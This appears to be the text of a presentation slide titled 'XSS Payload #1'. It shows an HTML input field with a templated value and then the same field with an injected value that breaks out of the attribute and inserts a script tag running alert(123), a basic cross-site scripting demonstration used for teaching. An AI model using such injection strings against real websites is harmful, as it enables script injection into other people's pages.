

# XSS Payload #1
<input type="text" value="{input}" />
<input type="text" value="”><script>alert(123)</script>" />